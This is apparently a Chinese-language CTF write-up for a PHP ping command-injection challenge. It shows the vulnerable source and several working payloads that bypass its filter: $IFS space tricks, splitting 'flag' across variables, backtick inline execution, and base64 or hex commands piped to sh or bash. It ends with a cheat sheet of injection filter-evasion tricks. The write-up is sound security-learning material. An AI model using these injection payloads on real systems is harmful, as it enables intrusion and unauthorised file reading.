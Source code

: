![[Pasted image 20250203113217.png]]
GET传参
![[Pasted image 20250203113244.png]]
他是不是骂我呢（
![[Pasted image 20250203113320.png]]
应该是把flag和空格都过滤了
![[Pasted image 20250203113513.png]]
近在眼前呐
用空格绕过试试`$IFS$9`，访问下index.php
![[Pasted image 20250203113755.png]]
```php
/?ip=
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "

";
  print_r($a);
}

?>
```
过滤了特殊字符、flag的贪婪匹配，匹配一个字符串中，是否按顺序出现过flag四个字母：
```
& / ? * < x{00}-\x{1f} ' " \ () [] {}  空格
"xxxfxxxlxxxaxxxgxxx" " " "bash" 
```
### 法一：简单变量替换，用$a覆盖拼接flag
```php
?ip=127.0.0.1;a=f;cat$IFS$9$alag.php    过滤
?ip=127.0.0.1;a=l;cat$IFS$9f$aag.php	没flag
?ip=127.0.0.1;a=a;cat$IFS$9fl$ag.php  	过滤
?ip=127.0.0.1;a=g;cat$IFS$9fla$a.php	有flag
```
变量替换顺序，效果也不一样
输入第四条后发现没有flag回显，我们需要**CTRL+U**查看源码
![[Pasted image 20250203140818.png]]

### 法二：变量ab互换传递，绕过字符串匹配，实现拼接
```php
?ip=127.0.0.1;a=fl;b=ag;cat$IFS$9$a$b.php 过滤 
?ip=127.0.0.1;b=ag;a=fl;cat$IFS$9$a$b.php 有flag
?ip=127.0.0.1;b=lag;a=f;cat$IFS$9$a$b.php 有flag
```
输入后面两条，同理查看源码

### 法三：内联执行
```php
?ip=127.0.0.1;cat$IFS`ls`
?ip=127.0.0.1;cat$IFS$3`ls`
?ip=127.0.0.1;cat$IFS$9`ls`
?ip=127.0.0.1|cat$IFS$9`ls`
```
个人习惯使用第三条
将ls的结果作为输入执行，同理查看源码

### 法四：被过滤的bash，用管道+sh替换
`cat flag.php`用**base64加密**来绕过正则匹配
过滤了flag、bash，但sh没过滤，linux下可用sh
```php
Y2F0IGZsYWcucGhw
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```
`|sh`就是执行前面的echo脚本

### 类似题的大致思路
```
cat fl*               用*匹配任意 
cat fla*              用*匹配任意
ca\t fla\g.php        反斜线绕过
cat fl''ag.php        两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
//base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数

echo "63617420666c61672e706870" | xxd -r -p | bash       
//hex编码绕过(引号可以去掉)

echo "63617420666c61672e706870" | xxd -r -p | sh     
//sh的效果和bash一样

cat fl[a]g.php         用[]匹配

a=fl;b=ag;cat $a$b     变量替换
cp fla{g.php,G}        把flag.php复制为flaG
ca${21}t a.txt         
利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 
```
#### 通配符
```
*     #匹配全部字符，通配符
?     #任意一个字符，通配符
[]    #表示一个范围（正则，通配符）
{}    #产生一个序列（通配符）
```
![[Pasted image 20250203142400.png]]

